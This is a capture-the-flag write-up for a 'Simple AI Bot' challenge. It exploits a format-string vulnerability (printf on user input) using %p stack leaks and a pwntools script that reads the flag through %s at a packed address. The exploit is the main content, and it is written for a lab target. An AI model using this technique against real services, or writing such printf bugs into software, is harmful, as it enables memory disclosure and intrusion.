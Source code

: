 # Simple AI Bot

Co-authors: @Rosayxy

Blind pwn suggested by @Rosayxy.

The input string goes through `printf(str)`:

```
Hi, what can I help you with today?
> %p%p%p%p%p%p%p%p
I'm sorry, I don't know about: 0x7fffb71d52f00x110xc00200000x7fffb71d5320(nil)0x70257025702570250x70257025702570250x373265313464000a

Is there anything what you want me to ask?
```

The data printed:

- Don't care:
    - 0x7fffb71d52f0
    - 0x11
    - 0xc0020000
    - 0x7fffb71d5320
    - (nil)
- Location of our `%p%p%p%p%p%p%p%p`:
    - 0x7025702570257025: 4x %p
    - 0x7025702570257025: 4x %p
    - 0x373265313464000a: data after 8x %p

Get flag address:

```
Hi, what can I help you with today?
> flag
The flag is safely stored in 0x57278f8c5040

Is there anything what you want me to ask?
>
```

Put flag address at the end of the input string, and use `%s` to print the contents:

```python
from pwn import *
context(log_level='debug')

p = remote("simple-ai-bot.ctf.zone", 4242)

p.recvuntil(">")
p.sendline(b"flag")
addr = int(p.recvuntil(">").split()[6], 16)
p.sendline(b"%p"*7+b"%s"+p64(addr))
p.interactive()
```

The order of args:

- %p prints arg 1: Don't care
- %p prints arg 2: Don't care
- %p prints arg 3: Don't care
- %p prints arg 4: Don't care
- %p prints arg 5: Don't care
- %p prints arg 6: %p%p%p%p
- %p prints arg 7: %p%p%p%s
- %s prints arg 8: the flag address is here

Solved!
